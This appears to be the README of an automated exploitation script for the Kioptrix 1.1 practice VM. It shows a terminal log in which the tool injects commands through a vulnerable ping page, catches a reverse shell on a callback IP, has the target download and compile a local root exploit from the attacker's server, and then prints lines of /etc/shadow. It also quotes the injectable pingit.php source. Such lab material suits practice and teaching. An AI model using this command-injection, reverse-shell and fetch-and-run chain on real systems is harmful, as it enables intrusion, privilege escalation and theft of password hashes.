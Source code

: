 ## Kioptrix 1.1 Automagic Exploitation Tool.
Just supply your target IP and your callback IP. The automation will handle the rest. It even downloads/executes the local root exploit for you and just pops you open a shell.

You will need `pwntools` and `requests`.

```
(venv) sky@kitten:~/projects/kioptrix/1.1$ python kioptrix1.1.py 192.168.0.103 192.168.0.101
kioptrix level 1.1 automatic exploitation utility.
[+] Trying to bind to 0.0.0.0 on port 0: Done
[+] Waiting for connections on 0.0.0.0:36431: Got connection from 192.168.0.103 on port 32784
[*] Switching to interactive mode
Started httpserver on port  bash: no job control in this shell
bash-3.00$ 8976
--12:58:44--  http://192.168.0.101:8976/1.1.c
           => `/tmp/rootme.c'
Connecting to 192.168.0.101:8976... {+} Got call from 192.168.0.103 - dropping local root ;)connected.
HTTP request sent, awaiting response... 
192.168.0.103 - - [11/Sep/2017 13:58:45] "GET /1.1.c HTTP/1.0" 200 -
200 OK
Length: unspecified [text/plain]

    0K ...                                                     223.58 MB/s

12:58:44 (223.58 MB/s) - `/tmp/rootme.c' saved [3751]

bash-3.00$ sh: no job control in this shell
sh-3.00# $ id;uname -a;pwd
uid=0(root) gid=0(root) groups=48(apache)
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
/var/www/html
sh-3.00# $ head -n 3 /etc/shadow
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
bin:*:14525:0:99999:7:::
daemon:*:14525:0:99999:7:::
sh-3.00# $ 
```

You should note, all the bullshit login logic is actually totally unnecessary. The "pingit.php" endpoint can be hit directly. I just implemented it all for the craic.

```
$ cat pingit.php
<?php

print $_POST['ip'];
if (isset($_POST['submit'])){
        $target = $_REQUEST[ 'ip' ];
        echo '<pre>';
        echo shell_exec( 'ping -c 3 ' . $target );
        echo '</pre>';
    }
?>
```
